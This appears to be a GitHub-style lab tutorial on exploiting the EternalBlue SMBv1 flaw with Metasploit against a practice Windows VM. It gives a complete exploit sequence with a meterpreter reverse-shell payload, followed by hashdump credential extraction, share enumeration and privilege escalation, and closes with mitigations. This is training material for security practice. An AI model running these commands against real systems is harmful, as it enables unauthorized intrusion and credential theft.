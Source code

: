 # Exploiting a Vulnerable SMB Server

## Introduction
This practice example demonstrates how to exploit a vulnerable SMB (Server Message Block) service using Metasploit. We will target an outdated Windows system running SMBv1 with the famous **EternalBlue (MS17-010)** vulnerability, which allows remote code execution.

## Table of Contents
- [Setup the Target](#setup-the-target)
- [Scanning for Vulnerabilities](#scanning-for-vulnerabilities)
- [Exploitation using Metasploit](#exploitation-using-metasploit)
- [Gaining a Shell](#gaining-a-shell)
- [Post-Exploitation](#post-exploitation)
- [Mitigation Measures](#mitigation-measures)
- [Conclusion](#conclusion)

## Setup the Target
Ensure that you have a vulnerable Windows machine running SMBv1. You can use Metasploitable3 or a Windows 7 VM with SMBv1 enabled.

1. Set up the vulnerable Windows machine.
2. Check the target's IP address:
   ```powershell
   ipconfig
   ```
   Suppose the target IP is `192.168.1.100`.

## Scanning for Vulnerabilities
To identify SMB vulnerabilities, use Nmap:

```bash
nmap -p 445 --script=smb-vuln-ms17-010 192.168.1.100
```

### Explanation:
- `-p 445`: Scans the SMB port.
- `--script=smb-vuln-ms17-010`: Checks if the system is vulnerable to EternalBlue.

If the scan confirms the vulnerability, proceed with exploitation.

## Exploitation using Metasploit
Launch Metasploit and use the EternalBlue exploit:

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_attack_machine_IP>
exploit
```

### Explanation:
- `use exploit/windows/smb/ms17_010_eternalblue`: Loads the EternalBlue exploit.
- `set RHOSTS 192.168.1.100`: Specifies the target IP.
- `set RPORT 445`: Sets the SMB port.
- `set PAYLOAD windows/x64/meterpreter/reverse_tcp`: Specifies a reverse shell payload.
- `set LHOST <your_attack_machine_IP>`: Sets the attacker's IP to receive the shell.
- `exploit`: Executes the attack.

## Gaining a Shell
If successful, you will get a Meterpreter session:

```bash
meterpreter > sysinfo
meterpreter > getuid
```

### Explanation:
- `sysinfo`: Displays system details.
- `getuid`: Checks current user privileges.

At this point, you have successfully gained remote access.

## Post-Exploitation
After gaining access, perform post-exploitation tasks:

### Extracting System Information
```bash
meterpreter > hashdump
meterpreter > run post/windows/gather/enum_shares
```

### Privilege Escalation
```bash
meterpreter > getsystem
```

## Mitigation Measures
To prevent this attack:
1. **Update Windows** to patch MS17-010.
2. **Disable SMBv1** using:
   ```powershell
   Set-SmbServerConfiguration -EnableSMB1Protocol $false
   ```
3. **Use strong passwords** to prevent unauthorized access.
4. **Enable firewalls** to restrict SMB access from untrusted networks.

## Conclusion
This practice example demonstrated how to exploit a vulnerable SMB service using Metasploit. We performed reconnaissance, executed an exploit, gained unauthorized access, and explored post-exploitation techniques. Proper security measures should be implemented to prevent such attacks.

_For more learning, refer to [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)._
